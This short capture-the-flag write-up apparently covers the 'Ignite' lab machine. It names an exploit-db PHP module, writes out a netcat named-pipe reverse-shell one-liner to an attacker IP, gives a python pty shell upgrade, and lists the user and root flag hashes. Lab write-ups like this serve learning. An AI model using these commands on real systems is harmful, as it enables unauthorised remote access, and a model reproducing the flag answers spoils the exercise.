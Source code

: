 # Ignite 

ip : `10.10.227.139`

using the exploit at `/usr/share/exploitdb/exploits/php/webapps/49487.rb`

getting reverse shell
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.48.110 4444>/tmp/f

```

spawning a tty shell
```
python -c 'import pty;pty.spawn("/bin/bash")'
```





| flag | value |
|------|-------|
| User.txt | 6470e394cbf6dab6a91682cc8585059b |
| Root.txt | b9bbcb33e11b80be759c4e844862482d |
